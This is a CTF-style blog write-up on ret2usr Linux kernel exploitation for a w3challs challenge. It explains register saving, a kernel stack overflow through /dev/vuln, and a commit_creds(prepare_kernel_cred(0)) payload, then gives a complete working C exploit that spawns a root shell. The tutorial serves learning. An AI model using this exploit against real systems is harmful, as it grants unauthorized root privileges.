```yaml
---
layout: post
title:  "Ret2usr Kernel Exploitation Basic"
date:   2022-03-28
categories: pwn
description: Pwn, Pwn, Pwn Pwn the kernel
tags: pwn, CTF
---
```



<img src="/images/ret2usr/cover.png"/>


# What is ret2usr

The ret2usr attack exploits the user space of the user space to access the kernel space, but the kernel space can access the user space** This feature directs the kernel code or data stream to the user control, and performs the userspace code completion with the ring 0 privilege. ~CTF Wiki


The ret2usr is pretty similar to ret2shellcode, since we can control things on `user-land`
we can put shellcode somewhere on the stack then overwrite the return address of the 
current function with our shellcode address.

In order to make this technique work, we have to make sure there's no `kaslr`, `smep`, `smap` 
and `pti` is enabled. 


for example I will use challenge from `https://w3challs.com/challenges/pwn/knoob`  

# Save state registers

Firstly, before going into `kernel-mode` we have to save the state of these registers. then 
reload them after gaining root privileges. This is because normally kernel will return to `user-land`
using 1 instruction either it is `sysretq` or `iretq`. Most people will use `iretq` because as far I know `sysretq`
is more complicated. The `iretq` instruction requires the stack to be setup with 5 `user-land` register values
in this order `RIP|CS|RFLAGS|SP|SS`

the function to save the state can be look like below

{% highlight c %}
void save_state(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_rsp, rsp;"
        "pushf;"
        "pop user_rflag;"
        ".att_syntax"
    );
}
{% endhighlight %}

# Open the device 

We have to open the device in order to interact with the kernel module, the function to 
open the device will look like this:

{% highlight C %}
void open_device_state(){
    opend_ = open("/dev/vuln", O_RDWR);
    if(opend_ < 0 ){
        write(1,"[-] fail to open device\n",24);
    }else{
        write(1,"[+] device opened\n",18);
    }
}
{% endhighlight %}

# Overwrite return address

We can use command like `echo "AAAAAAAAAAAAAAAAAA" > /dev/vuln` to determine how long the offset to overwrite `%rip`
then we can make a function to overwrite the current `%rip` on the `kernel-space`:

{% highlight c %}
void smash(){
    unsigned long n = 23;
    unsigned long rop[n];
    unsigned off = 0;
    rop[off++] = 0x4141414141414141;
    rop[off++] = 0x4241414141414141;
    rop[off++] = 0x4341414141414141;
    rop[off++] = 0x4441414141414141;
    rop[off++] = 0x4541414141414141;
    rop[off++] = 0x4641414141414141;
    rop[off++] = 0x4741414141414141;
    rop[off++] = 0x4841414141414141;
    rop[off++] = 0x4941414141414141;
    rop[off++] = 0x4a41414141414141;
    rop[off++] = 0x4b41414141414141;
    rop[off++] = 0x4c41414141414141;
    rop[off++] = 0x4d41414141414141;
    rop[off++] = 0x4e41414141414141;
    rop[off++] = 0x4f41414141414141;
    rop[off++] = 0x5141414141414141;
    rop[off++] = 0x5241414141414141;
    rop[off++] = 0x5341414141414141;
    rop[off++] = 0x5441414141414141;
    rop[off++] = 0x5541414141414141;
    rop[off++] = 0x5641414141414141;
    rop[off++] = 0x5741414141414141;
    rop[off++] = (unsigned long)gain_r00t;
    write(opend_, rop, sizeof(rop));
}
{% endhighlight %}

In order to get privilege escalation, we need to perform `commit_creds(prepare_kernel_cred(0))` to
get root permission from `kernel-space`, since `kaslr` is disabled we can find the address from `/proc/kallsyms` 

{% highlight sh %}
/ $ cat /proc/kallsyms | grep commit_creds
ffffffff81084550 T commit_creds
/ $ cat /proc/kallsyms | grep prepare_kernel_cred
ffffffff81084810 T prepare_kernel_cred
{% endhighlight %}

Now we can craft the exploit and reload all the registers to achieve root privileges. Since we want a shell to be popped, you need to return to `user-land`. the reason is because after running the exploit we are still in `kernel-mode` so in order to get a root shell we need to return to `user-land`. the code to achieve root privileges and reload 5 register values can be written as follows

{% highlight c %}

void gain_r00t(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, prepare_kernel_cred;"
        "xor rdi, rdi;"
        "call rax;"
        "mov rdi, rax;"
        "movabs rax, commit_creds;"
        "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_rsp;"
        "push r15;"
        "mov r15, user_rflag;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}

{% endhighlight %}

<img src="/images/ret2usr/poc.png"/>

# Full exploit

{% highlight C %}

#include <stdio.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdint.h>


unsigned long prepare_kernel_cred = 0xffffffff81084810;
unsigned long commit_creds = 0xffffffff81084550;

int opend_;
unsigned long user_cs, user_ss, user_rsp, user_rflag;

void open_device_state(){
    opend_ = open("/dev/vuln", O_RDWR);
    if(opend_ < 0 ){
        write(1,"[-] fail to open device\n",24);
    }else{
        write(1,"[+] device opened\n",18);
    }
}

void save_state(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_rsp, rsp;"
        "pushf;"
        "pop user_rflag;"
        ".att_syntax"
    );
}

void gain_shell(void){
    write(1,"[*] back to userland\n",21);
    if(getuid() == 0){
        system("/bin/sh");
    }else{
        write(1, "[-] fail", 8);
    }
}

unsigned long user_rip = (unsigned long)gain_shell;
void gain_r00t(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, prepare_kernel_cred;"
        "xor rdi, rdi;"
        "call rax;"
        "mov rdi, rax;"
        "movabs rax, commit_creds;"
        "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_rsp;"
        "push r15;"
        "mov r15, user_rflag;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}

void smash(){
    unsigned long n = 23;
    unsigned long rop[n];
    unsigned off = 0;
    rop[off++] = 0x4141414141414141;
    rop[off++] = 0x4241414141414141;
    rop[off++] = 0x4341414141414141;
    rop[off++] = 0x4441414141414141;
    rop[off++] = 0x4541414141414141;
    rop[off++] = 0x4641414141414141;
    rop[off++] = 0x4741414141414141;
    rop[off++] = 0x4841414141414141;
    rop[off++] = 0x4941414141414141;
    rop[off++] = 0x4a41414141414141;
    rop[off++] = 0x4b41414141414141;
    rop[off++] = 0x4c41414141414141;
    rop[off++] = 0x4d41414141414141;
    rop[off++] = 0x4e41414141414141;
    rop[off++] = 0x4f41414141414141;
    rop[off++] = 0x5141414141414141;
    rop[off++] = 0x5241414141414141;
    rop[off++] = 0x5341414141414141;
    rop[off++] = 0x5441414141414141;
    rop[off++] = 0x5541414141414141;
    rop[off++] = 0x5641414141414141;
    rop[off++] = 0x5741414141414141;
    rop[off++] = (unsigned long)gain_r00t;
    write(opend_, rop, sizeof(rop));
}

void main(){
    save_state();
    open_device_state();
    smash();    

}

{% endhighlight %}